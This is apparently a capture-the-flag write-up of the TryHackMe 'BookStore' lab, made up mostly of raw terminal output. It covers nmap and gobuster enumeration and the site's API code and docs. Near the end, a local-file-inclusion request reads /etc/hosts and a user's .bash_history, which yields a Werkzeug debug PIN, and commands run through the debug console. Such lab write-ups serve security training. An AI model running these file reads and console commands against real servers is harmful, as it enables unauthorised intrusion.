 
<code>

### Service Enumaration  
┌──(duke㉿kali)-[~/Documents/THM_BookStore]
└─$ nmap  -sV -Pn 10.10.189.121

Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-19 03:54 CST
Nmap scan report for 10.10.189.121
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds

### Web Enumaration  

┌──(duke㉿kali)-[~/Documents/THM_BookStore]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.189.121 -x .txt,.php,html
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://10.10.189.121
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
2024/02/19 03:54:59 Starting gobuster in directory enumeration mode
/images               (Status: 301) [Size: 315] [--> http://10.10.189.121/images/]
/index.html           (Status: 200) [Size: 6452]                                  
/login.html           (Status: 200) [Size: 5325]                                  
/books.html           (Status: 200) [Size: 2940]                                  
/assets               (Status: 301) [Size: 315] [--> http://10.10.189.121/assets/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.189.121/javascript/]
/LICENSE.txt          (Status: 200) [Size: 17130]                                     
/server-status        (Status: 403) [Size: 278]                                       
                                                                                      
` ===============================================================
` 2024/02/19 04:45:40 Finished
` ===============================================================

### api.js

function getAPIURL() {
var str = window.location.hostname;
str = str + ":5000"
return str;

    }
async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}

async function renderUsers() {
    let users = await getUsers();
    let html = '';
    users.forEach(user => {
        let htmlSegment = `<div class="user">
	 	        <h2>Title : ${user.title}</h3> <br>
                        <h3>First Sentence : </h3> <br>
			<h4>${user.first_sentence}</h4><br>
                        <h1>Author: ${user.author} </h1> <br> <br>        
                </div>`;

        html += htmlSegment;
   });
   
    let container = document.getElementById("respons");
    container.innerHTML = html;
}
renderUsers();
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.

### API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)
/api/v2/resources/books/random4 (Retrieve 4 random records)
/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)
/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)
/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)
/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)



>>> os.popen('id').read()
'uid=1000(sid) gid=1000(sid) groups=1000(sid)\n'
>>> os.popen('pwd').read()
'/home/sid\n'


http://10.10.194.43:5000/api/v1/resources/books?show=/etc/hosts
http://10.10.194.43:5000/api/v1/resources/books?show=/home/sid/.bash_history
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit 


<\code>
